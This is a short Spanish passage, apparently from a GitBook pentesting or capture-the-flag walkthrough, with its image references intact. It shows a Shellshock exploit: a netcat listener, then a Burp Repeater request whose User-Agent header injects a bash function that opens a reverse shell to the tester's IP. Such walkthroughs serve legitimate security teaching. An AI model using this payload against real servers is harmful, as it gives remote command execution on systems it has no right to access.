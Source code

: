 <figure><img src="../../../../.gitbook/assets/enter.PNG" alt=""><figcaption></figcaption></figure>

 

<figure><img src="../../../../.gitbook/assets/intercept.PNG" alt=""><figcaption></figcaption></figure>

</div>

* Nos ponemos en escucha con netcat para recibir la reverse shell

```shell
> nc -lvnp <puerto>
```

* Mandamos la petición al repeater con control + R y en el User-Agent ponemos lo siguiente para enviarnos una reverse shell

```shell
User-Agent: () { :; }; bash -i >& /dev/tcp/<tu-ip>/<puerto> 0>&1
```

* Le damos a **send** para enviar la **reverse shell**
